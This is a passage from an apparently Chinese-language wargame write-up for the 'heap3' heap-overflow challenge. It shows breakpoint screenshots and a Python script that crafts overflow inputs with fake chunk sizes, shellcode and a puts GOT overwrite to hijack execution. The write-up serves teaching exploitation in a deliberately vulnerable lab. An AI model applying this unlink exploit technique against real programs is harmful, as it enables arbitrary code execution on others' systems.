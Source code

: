 Breakpoint 3：

<img src=".\heap3-analysis-15.png" style="zoom:67%;" />

Breakpoint 4：

<img src=".\heap3-analysis-16.png" style="zoom:67%;" />



### 方法二：利用b的堆溢出

原理类似方法一，构造的攻击脚本如下：

```python
# heap3_b.py
# exploit b overflow
a = "A" * 4
a += "\x68\x64\x88\x04\x08\xc3" # shellcode

b = "A" * 32
# overflow into c
b += "\xf8\xff\xff\xff" # b块的size（伪）
b += "\xfc\xff\xff\xff" # c块的size（伪）
b += "B" * 8
b += "\x1c\xb1\x04\x08" # puts@GOTS - 12
b += "\x0c\xc0\x04\x08" # shellcode入口地址

c = "CCCC"

```